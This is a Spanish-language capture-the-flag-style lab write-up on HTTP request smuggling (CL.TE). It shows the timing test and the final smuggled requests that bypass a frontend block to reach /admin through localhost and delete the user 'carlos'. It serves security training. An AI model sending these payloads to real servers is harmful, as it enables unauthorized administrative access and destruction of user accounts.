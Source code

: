 
### LAB: CL->TE Bypassear el control de frontend para acceder a `/admin`

* Que el backend server procese el `admin panel`
* `Path /admin is blocked`
* Importante seguir la metodologia de siempre, get to POST, http/2 a http/1.1 

```js
//TEST INICIAL - BOMBA DE TIEMPO
Transfer-Encoding: chunked
Content-Length: 4

1
A
X

//Retorna un time out
```

#### Payload Final

```js
//Antes de tirar el host localhost lo probe con el de ID-LAB, pero retorno que la admin interface es accesible solo a traves de localhost. 

//MI SOLUCION 
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=

\r\n\r\n

//Luego simplemente eliminamos a carlos (aqui toca entender el problema y actualizar la content length)
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=

\r\n\r\n
```
